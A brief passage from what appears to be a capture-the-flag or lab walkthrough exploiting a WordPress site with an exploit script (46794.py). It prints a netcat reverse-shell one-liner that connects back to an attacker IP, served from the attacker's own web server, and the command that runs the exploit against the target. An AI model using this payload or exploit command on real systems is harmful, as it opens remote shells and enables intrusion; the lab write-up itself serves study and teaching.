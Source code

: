 As per the GitHub description we need to create a text file that will be hosted on our attacking machine with the contents of what we want to execute.
```html
<pre>system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.139.254 6666 >/tmp/f')</pre>
```

First I hosted a Python SimpleHTTPServer on my attacking machine.
```sh
simplehttp
```
```sh
python2 46794.py  --target http://192.168.178.123/wordpress/ --payload-uri http://192.168.49.178/test.txt
```

![[Pasted image 20231117211206.png]]